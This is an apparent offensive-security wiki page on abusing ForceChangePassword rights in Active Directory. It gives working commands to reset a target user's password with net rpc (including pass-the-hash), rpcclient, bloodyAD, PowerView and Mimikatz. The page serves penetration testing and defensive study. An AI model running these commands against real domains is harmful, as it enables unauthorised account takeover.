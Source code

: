 # ForceChangePassword

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.

{% tabs %}
{% tab title="UNIX-like" %}
It can also be achieved from UNIX-like system with [net](https://linux.die.net/man/8/net), a tool for the administration of samba and cifs/smb clients. The [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit) can also be used to run net commands with [pass-the-hash](../ntlm/pth.md).

```bash
# With net and cleartext credentials (will be prompted)
net rpc password $TargetUser -U $DOMAIN/$ControlledUser -S $DomainController

# With net and cleartext credentials
net rpc password $TargetUser -U $DOMAIN/$ControlledUser%$Password -S $DomainController

# With Pass-the-Hash
pth-net rpc password $TargetUser -U $DOMAIN/$ControlledUser%ffffffffffffffffffffffffffffffff:$NThash -S $DomainController
```

The [rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) can also be used on UNIX-like systems when the package `samba-common-bin` is missing.

```bash
rpcclient -U $DOMAIN/$ControlledUser $DomainController
rpcclient $> setuserinfo2 $TargetUser 23 $NewPassword
```

Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set password $TargetUser $NewPassword
```
{% endtab %}

{% tab title="Windows" %}
The attacker can change the password of the user. This can be achieved with [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
$NewPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity 'TargetUser' -AccountPassword $NewPassword
```

Mimikatz's [`lsadump::setntlm`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/setntlm) can also be used for that purpose.
{% endtab %}
{% endtabs %}
